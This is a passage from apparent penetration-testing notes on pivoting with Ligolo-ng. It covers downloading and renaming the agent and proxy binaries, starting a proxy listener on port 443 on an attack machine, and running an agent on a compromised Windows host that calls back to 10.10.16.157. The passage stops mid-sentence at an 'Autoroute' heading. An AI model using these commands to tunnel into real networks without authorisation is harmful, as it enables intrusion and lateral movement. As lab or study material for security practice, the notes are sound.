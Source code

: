 //TODO: UPDATE ESPANSO TO USE MODERN LIGOLO WINDOWS AGENT, LINUX AGENT, AND LINUX SERVER

Ligolo is used for pivoting. We can install it with the below commands, and rename it to make the names more obvious

```bash
# Get windows agent, extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_windows_amd64.zip && unzip ligolo-ng_agent_0.8.2_windows_amd64.zip && mv agent.exe ligolo-windows-agent.exe && rm *.zip && rm *.md && rm LICENSE

# Get the Linux Proxy Server, Extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz && tar -xvf ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz && mv proxy ligolo-proxy-server && rm *.gz && rm *.md && rm LICENSE


# Get the Linux Agent, Extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz && tar -xvf ligolo-ng_agent_0.8.2_linux_amd64.tar.gz && mv agent ligolo-linux-agent && rm *.gz && rm *.md && rm LICENSE

```

There's two parts: a proxy server running on our attack machine, and agents running on compromised machines. The agents will call back to the attacking machine's proxy server.

We can setup our proxy server like so, to add the ligolo interface, set it up, and then run the proxy server, which will listen on port 443 for connections.
```bash
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up && sudo ./proxy -selfcert -laddr 0.0.0.0:443


```

We can run the agent (after uploading it) with
```cmd
C:\Windows\tasks\ligolo-windows-agent.exe -connect 10.10.16.157:443 -ignore-cert
```


## Autoroute
We need to add the internal IP range so that it gets routed. We can